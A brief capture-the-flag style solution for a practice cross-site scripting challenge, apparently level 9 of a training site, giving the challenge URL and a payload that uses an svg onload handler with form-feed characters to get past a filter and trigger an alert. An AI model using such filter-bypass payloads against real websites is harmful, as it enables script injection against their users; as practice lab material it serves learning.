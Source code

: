 Chall Url: http://www.zixem.altervista.org/XSS/9.php?name=
Payload: http://www.zixem.altervista.org/XSS/9.php?name=%3Csvg%0Conload%0C=%0Calert(1337)%0C%3E

![](https://user-images.githubusercontent.com/25671488/61406251-1ab67900-a8f9-11e9-8b87-a9901ac76750.png)
